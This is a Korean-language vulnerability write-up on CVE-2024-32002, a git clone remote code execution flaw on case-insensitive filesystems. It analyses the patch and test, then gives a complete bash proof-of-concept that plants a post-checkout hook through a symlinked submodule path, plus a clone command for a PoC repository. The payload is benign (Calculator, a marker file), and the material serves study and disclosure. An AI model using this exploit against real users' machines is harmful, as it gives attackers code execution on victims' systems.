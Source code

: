 # git clone을 통한 Remote Code Execution 공격 (CVE-2024-32002)

<strong>기여자</strong>
<br/>

-   [이정우@Roronoawjd](https://github.com/Roronoawjd)

## 배경 설명
해당 취약점은 대소문자를 구분하지 않는 Windows, MacOS와 같은 파일 시스템에서 submodule을 포함하는 git 저장소를 clone할 때 발생하는 `RCE(Remote Code Execution)` 취약점이다. RCE는 원격 코드 실행 취약점으로 공격자가 대상 시스템에서 원하는 명령어를 실행할 수 있는 아주 치명적인 취약점이다.
`A/modules/x` 과 `a/modules/x`은 동일한 경로로 취급된다. 이러한 특징과 심볼릭 링크를 활용하여 취약점을 유발한다.

## 취약점 정보
- 해당 POC는 Windows와 MAC 시스템에서만 동작합니다.
- `git config --global core.symlinks false`로 설정된 경우에는 공격이 작동하지 않습니다.


## 취약점 분석
[취약점 패치 확인](https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d)

### `builtin/submodule--helper.c`
dir_contains_only_dotgit 함수: 디렉터리에 .git 파일만 포함되어 있는지 다른 디렉터리도 포함되어 있는지 확인하고 다른 파일이나 디렉터리가 있으면 오류를 반환한다.
clone_submodule 함수: clone하기 전에 하위 모듈 디렉토리가 존재하고 비어있는지 확인한다.

### `t/t7406-submodule-update.sh`

### 1. Global 구성
```sh
test_config_global protocol.file.allow always &&
test_config_global core.symlinks true &&
tell_tale_path="$PWD/tell.tale" &&
```
- 해당 스크립트는 Git 구성 옵션을 설정한다. protocol.file.allow always를 통해 Git의 파일 프로토콜을 활성화 한다.
- core.symlinks true를 설정하여 심볼릭 링크 사용을 허용한다.
- tell_tale_path는 RCE가 제대로 잘 작동됬는지 확인하는데 사용한다.

### 2. hook 설정
```sh
git init hook &&
(
  cd hook &&
  mkdir -p y/hooks &&
  write_script y/hooks/post-checkout <<-EOF &&
  echo HOOK-RUN >&2
  echo hook-run >"$tell_tale_path"
  EOF
  git add y/hooks/post-checkout &&
  test_tick &&
  git commit -m post-checkout
) &&
```
- hook 레퍼지토리를 초기화 한다.
- post-checkout이라는 hook을 생성
- hook 스크립트를 저장소에 커밋

### 3. 메인 저장소 설정
```sh
hook_repo_path="$(pwd)/hook" &&
git init captain &&
(
  cd captain &&
  git submodule add --name x/y "$hook_repo_path" A/modules/x &&
  test_tick &&
  git commit -m add-submodule &&
  printf .git >dotgit.txt &&
  git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
  printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
  git update-index --index-info <index.info &&
  test_tick &&
  git commit -m add-symlink
) &&
```
- hook의 경로 저장
- captin이라는 다른 레퍼지토리 초기화
- hook 저장소를 `A/modules/x`에 하위모듈로 추가한 후 커밋
- .git을 가리키는 a라는 심볼릭링크 생성

### 4. 테스트
```sh
test_path_is_missing "$tell_tale_path" &&
test_must_fail git clone --recursive captain hooked 2>err &&
grep "directory not empty" err &&
test_path_is_missing "$tell_tale_path"
```
- RCE가 작동됐는지 확인

### POC 제작
```sh
#!/bin/bash

# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 


# Define the tell-tale path
tell_tale_path="$PWD/tell.tale"

# Initialize the hook repository
git init hook
cd hook
mkdir -p y/hooks

# Write the malicious code to a hook
cat > y/hooks/post-checkout <<EOF
#!/bin/bash
echo "I'm roronoa" > /tmp/pwnd
calc.exe
open -a Calculator.app
EOF

# Make the hook executable: important
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..

# Define the hook repository path
hook_repo_path="$(pwd)/hook"

# Initialize the captain repository
git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# Create a symlink
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..

git clone --recursive captain hooked
```

git은 특정 이벤트가 생겼을 때 자동으로 스크립트를 실행할 수 있도록하는 hook이라는 것이 존재한다. 위치는 .git/hooks 디렉토리에 존재한다.
post-checkout은 checkout한 후에 실행되는 스크립트이다.

![image](https://github.com/Roronoawjd/git_rce/assets/105417063/95806f9f-1f69-46df-a71e-ac6bf97b318b)

순서는 다음과 같다.
1. clone 저장소 git_rce에 `.git`을 가리키는 심볼릭 링크 `a`가 생성
2. git clone할 때 하위 모듈의 경로가 `A/modules/x`가 아니라 `a/modules/x`로 인식됨
3. `a`는 `.git`을 가리키기 때문에 `.git`에 `/modules/x`가 생기고 `y/hooks/post-checkout`이 생성됨
4. checkout 성공 후 자동 후 `git_rce/.git/modules/x/y/hooks/post-checkout`가 실행되어 RCE가 발생함

## POC(Proof of Concept)
⚠️경고: 해당 취약점을 악의적으로 사용하지 마시오!
<pre><code>git clone --recursive https://github.com/Roronoawjd/git_rce.git</code></pre>
참고: Windows에서는 관리자 권한으로 cmd나 bash쉘을 열어서 실행해야 합니다.

